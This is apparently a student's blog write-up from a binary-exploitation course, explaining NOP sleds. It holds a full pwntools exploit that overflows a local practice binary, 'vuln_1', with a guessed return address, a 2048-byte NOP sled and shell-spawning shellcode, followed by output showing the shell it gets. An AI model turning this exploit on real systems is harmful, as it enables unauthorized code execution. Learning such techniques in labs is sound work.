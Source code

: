 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
# B&E Pt. 3 NOP Sleds
If you were to following along in the last part, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to *the environment variables stored by the stack.* If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this *our exploit code is not likely to work on a different target system* because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, *the offsets will be the same*. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.
## NOP Sleds
In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
![](writeups/writeup-pics/Pasted%20image%2020231121173335.png)
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our *best guess* is an address within our NOP sled, which is the next part of the injection payload.
### What is a NOP?
'NOP' stands for 'non operational' of 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to *not change the state of the program* (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.
### Why NOP?
Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as *executable filler*. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and *slide into our shellcode* placed at the end of the NOP sequence. That's why this technique is called a *NOP sled*. 

Using this technique, our payload on the stack will look something like this:
![](writeups/writeup-pics/Pasted%20image%2020231124142229.png)
Compared to our basic overflow (the first image) the shellcode is at the *END* of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed. 
### NOP Sled Length
We want our NOP sled to be pretty long so we can *increase the likelihood* that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.
## Re-Writing our Exploit
Our exploit code will now look like this:
```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes 
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode 

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```
Compared to our basic overflow code:
1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.
## NOP Slide into the Main Frame!
```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```
*Noice!*

In the next part of this series, we'll make our exploit *even more reliable* by using ROP Gadgets!

> Resources

>

> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)

> -   [Wikipedia: NOP](https://en.wikipedia.org/wiki/NOP_(code)

> -  [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

  

> My previous notes:

>

> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)
